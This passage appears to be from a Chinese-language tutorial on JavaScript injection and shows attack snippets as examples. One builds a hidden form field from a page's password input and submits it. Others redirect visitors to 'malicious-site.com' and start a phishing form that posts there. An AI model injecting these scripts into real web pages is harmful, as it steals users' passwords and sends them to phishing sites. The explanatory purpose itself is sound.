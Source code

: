     ```
     var passwordInput = document.createElement("input");
    ```

    ```
     passwordInput.setAttribute("type", "hidden");
    ```

    ```
     passwordInput.setAttribute("name", "password");
    ```

    ```
     passwordInput.setAttribute("value", document.getElementById("password").value);
    ```

    ```
     form.appendChild(passwordInput);
    ```

    ```
     document.body.appendChild(form);
    ```

    ```
     form.submit();
    ```

    ```
     }
    ```

    ```
     </script>
    ```

+   **重定向用户**：攻击者可以将 JavaScript 代码注入网页，将用户重定向到恶意网站。例如，攻击者可以注入代码，改变浏览器中`location`属性的值，从而导致用户被重定向到一个模仿合法网站的钓鱼网站：

    ```
     <script>
    ```

    ```
     window.location = "http://malicious-site.com";
    ```

    ```
     </script>
    ```

+   **网络钓鱼**：攻击者可能将 JavaScript 代码注入到网页中，将用户引导到恶意网站。例如，攻击者可能会包含代码，修改位置字段的值，并将访问者引导到一个看起来与合法网站完全相似的钓鱼网页：

    ```
     <form action="http://malicious-site.com" method="post">
    ```
